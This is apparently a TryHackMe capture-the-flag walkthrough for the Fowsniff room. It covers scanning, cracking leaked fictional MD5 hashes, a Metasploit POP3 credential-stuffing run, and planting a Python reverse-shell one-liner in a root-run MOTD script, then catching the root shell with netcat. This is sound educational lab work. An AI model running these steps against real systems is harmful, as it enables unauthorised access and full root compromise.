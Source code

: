 # [Fowsniff CTF](https://tryhackme.com/r/room/ctf)

This CTF provides an attack box and walks you through most of it. Most of the questions don't require answers, but in this walkthrough we'll explain our methodology and solutions to them. 

<details>
<summary> <b>Deploy the machine. On the top right of this you will see a Deploy button. Click on this to deploy the machine into the cloud. Wait a minute for it to become live.</b> </summary>
This is pretty straightforward. We press the Start Machine button, which the image below shows is grayed out once I clicked it.

![image](image.png)  

Cool. We then start our attack box and wait for it to load before proceeding.
</details>
<details>
<summary> <b>Using nmap, scan this machine. What ports are open?</b> </summary>  
We'll do a simple nmap scan. Nmap is powerful, and we can take our time scanning, but this is a simple CTF, so let's not overcomplicate it. The IP is provided to us after about a minute since the CTF machine is launched. Note that your IP may differ from mine.

![image](image-1.png)  

Solution: <b>Ports 22, 80, 110, and 143 are open.</b>
</details>
<details>
<summary> <b>Using the information from the open ports. Look around. What can you find?</b> </summary>  
I assume this is just asking if we see anything interesting about these protocols. SSH is a secure connection protocol. The rest are insecure versions of email (POP and IMAP) and web requests (HTTP). If we attempt to SSH, we can actually get in:  

![image](image-2.png)  
Unfortunately, it's password protected. Darn. Well, HTTP is another option. Opening up a browser and typing `10.10.252.0:80` (port number optional) will pull up the website, with some interesting information:  
![image](image-3.png)
Wowie, a credential leak. So this CTF is telling a story, cool. This may lead us to answering the next question.
</details>
<details>
<summary> <b>Using Google, can you find any public information about them?</b> </summary>  
Google search the corporation, they have a Twitter account (and many write-ups that could make it hard to actually focus on the CTF itself):  

![image](image-4.png)
Access the pastebin link and...

![alt text](image-5.png)
Well...this is not part of the CTF. You're supposed to get the passwords here. This is yet another CTF that attempts to make the user use their OSINT skills, only to fall flat.  
Fortunately, the Twitter account does show 'stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd' in one of its posts, but we need the others. This is extremely frustrating, as it requires you to read a write-up to gather the needed information. Here's the original pastebin in case you need it, and don't want to look any further:  

```
FOWSNIFF CORP PASSWORD LEAK
            ''~``
           ( o o )
+-----.oooO--(_)--Oooo.------+
|                            |
|          FOWSNIFF          |
|            got             |
|           PWN3D!!!         |
|                            |         
|       .oooO                |         
|        (   )   Oooo.       |         
+---------\ (----(   )-------+
           \_)    ) /
                 (_/
FowSniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!


mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e

Fowsniff Corporation Passwords LEAKED!
FOWSNIFF CORP PASSWORD DUMP!

Here are their email passwords dumped from their databases.
They left their pop3 server WIDE OPEN, too!

MD5 is insecure, so you shouldn't have trouble cracking them but I was too lazy haha =P

l8r n00bz!

B1gN1nj4

-------------------------------------------------------------------------------------------------
This list is entirely fictional and is part of a Capture the Flag educational challenge.

All information contained within is invented solely for this purpose and does not correspond
to any real persons or organizations.

Any similarities to actual people or entities is purely coincidental and occurred accidentally.
```

</details>
<details>
<summary> <b>Can you decode these md5 hashes? You can even use sites like hashkiller to decode them.</b> </summary>  
Normally, I would use hashcat, but let's try this online website they suggest. It initially looks like you need to create an account, but if you migrate to "Hash Cracker" and select "MD5 Cracker", you can use this for free.  

![alt text](image-6.png)
Throw those bad boys in there with the names removed and you'll get results:

![alt text](image-7.png)
For a nice text format in case you have trouble using an MD5 cracker, here it is:  

```
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb:skyler22
tegel@fowsniff:1dc352435fecca338acfd4be10984009:apples01
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11:orlando12
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4:mailcall
seina@fowsniff:90dc16d47114aa13671c697fd506cf26:scoobydoo2
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e:07011972
```

</details>
<details>
<summary> <b>Using the usernames and passwords you captured, can you use metasploit to brute force the pop3 login?</b> </summary>
In other words, it wants us to use credential stuffing on the POP3 server. Let's do it. You can access Metasploit by navigating to the Tools folder, or by typing 'msfconsole':  

![alt text](image-8.png)

Metasploit is a framework with a lot of built-in exploits. Googling 'metasploit pop3 credential stuffing' pulls up the command to do the attack we want to do. Script Kiddie: 1, Defensive Cyber Operator: 0.  

> msf > use auxiliary/scanner/pop3/pop3_login  

Run 'show options', and you will see we can create a file with usernames and passwords separated by a space to execute. We must also specify the receiving host (RHOST). Normally, RPORT must also be secified, but since this is a POP3 attack, Metasploit has already set this to our desired port 110.  

![alt text](image-9.png)

![alt text](image-10.png)

Enough monkeying around. Let's set the RHOST to 10.10.85.111 (my box's IP changed during this write-up) and USERPASS_FILE to the path of our modified user/pass file. You may also need to remove the USER_FILE and PASS_FILE settings, as it may attempt to check these before your actual list.

```
msf auxiliary(scanner/pop3/pop3_login) > set RHOST {target IP}
msf auxiliary(scanner/pop3/pop3_login) > set USERPASS_FILE ~/Desktop/userfile
msf auxiliary(scanner/pop3/pop3_login) > set USER_FILE ""
msf auxiliary(scanner/pop3/pop3_login) > set PASS_FILE ""
```

![alt text](image-11.png)

Winner winner chicken dinner.
</details>
<details>
<summary> <b>What was seina's password to the email service?</b> </summary>
This is what we obtained in the last question.  

Solution: <b>scoobydoo2</b>
</details>
<details>
<summary> <b>Can you connect to the pop3 service with her credentials? What email information can you gather?</b> </summary>
Why yes, we can use her credentials. We can login using telnet and specifying the POP3 protocol, then entering her username and password. The trick to all this is just knowing POP3 commands.

![alt text](image-12.png)

List the messages, and we see the ID of each one.

![alt text](image-13.png)

Using the `retr <id>` command, we can view these messages. The first one talks about how easy it was to use SQL injection on the site. It also gives a temporary password to use SSH:

![alt text](image-14.png)

This is why we couldn't break that hash from earlier. The second email is less interesting, sent by the user 'Skyler' whose username is 'baksteen'. He appears to not have read the first email sent in mass to everyone to change their SSH passwords. I wonder what we could do with this information...

![alt text](image-15.png)


</details>
<details>
<summary> <b>In the email, who send it? Using the password from the previous question and the senders username, connect to the machine using SSH.</b> </summary>

This question is worded weirdly, in the sense that it discourages the attacker to pay attention to the narrative. I interpreted this question thinking since Stone sent the password, we should connect with him, but the correct narrative being told is that Skyler (baksteen) hadn't changed his password yet, so we need to SSH as him.

![alt text](image-16.png)

Welcome back, baksteen.
</details>
<details>
<summary> <b>Once connected, what groups does this user belong to? Are there any interesting files that can be run by that group?</b> </summary>

Feel free to look around. Users can be found using `id -nG`.

![alt text](image-17.png)

Welp, that's about the groups we would expect. We can do a search `find / -type f -perm -u=rwx 2>/dev/null` to find files that we can write and execute as a user. The ending here ignores errors. The problem with this question is that there's a buttload of them:

![alt text](image-18.png)

The one they expect you to be interested in is `/opt/cube/cube.sh`. This contains the MOTD banner. It makes sense in hindsight, as when you login, this program will be ran and we can execute a malicious program with it. Unfortunately, most users won't know how to look for that for a beginner CTF. As much hand holding as this CTF does for you, I only knew it was this file in particular because of another write-up that the CTF references.
</details>
<details>
<summary> <b>Now you have found a file that can be edited by the group, can you edit it to include a reverse shell?</b> </summary>

Well, it gives us the python code to execute a reverse shell:
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((<IP>,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

So yes, just copy and paste this into the `cube.sh` file. Make sure to replace `<IP>` with your actual IP, which the attack box has within the user's name. If you're still unsure, do a simple `ifconfig`.

![alt text](image-19.png)
</details>
<details>
<summary> <b>If you have not found out already, this file is run as root when a user connects to the machine using SSH. We know this as when we first connect we can see we get given a banner (with fowsniff corp). Look in /etc/update-motd.d/ file. If (after we have put our reverse shell in the cube file) we then include this file in the motd.d file, it will run as root and we will get a reverse shell as root!</b> </summary>

We actually don't need to do anything here. By going to `/etc/update-motd.d/` and then `00-banner`, we see that `sh /opt/cube/cube.sh` is already executing our code.

![alt text](image-20.png)

This also brings to light how we may have known to look at `/opt/cube/cube.sh` from the earlier question. Essentially, we would look to find a privilege escalation vulnerability with the MOTD banner. I would argue this is a bit of a niche vulnerability for a CTF that requires almost no answers and practically gives you commands, so I leave this write-up in the perspective of you, the user, rather than just writing as if I knew perfectly how the CTF creator wanted this exercise to go.
</details>

<details>
<summary> <b>Start a netcat listener (nc -lvp 1234) and then re-login to the SSH service. You will then receive a reverse shell on your netcat session as root!</b> </summary>

Here's the home run. If we did everything right, we should get a reverse shell from our netcat listener upon a fresh SSH login:

![alt text](image-21.png)

![alt text](image-22.png)

![alt text](image-23.png)

Voila. I'll admit, I don't mind this hand holding bit, as it effectively walks you through how to make your own reverse shell.
</details>
<details>
<summary> <b>If you are really really stuck, there is a brilliant walkthrough here: https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

If its easier, follow this walkthrough with the deployed machine on the site.</b> </summary>

This doesn't require anything. We're done. Shoo. Get out of here.
</details>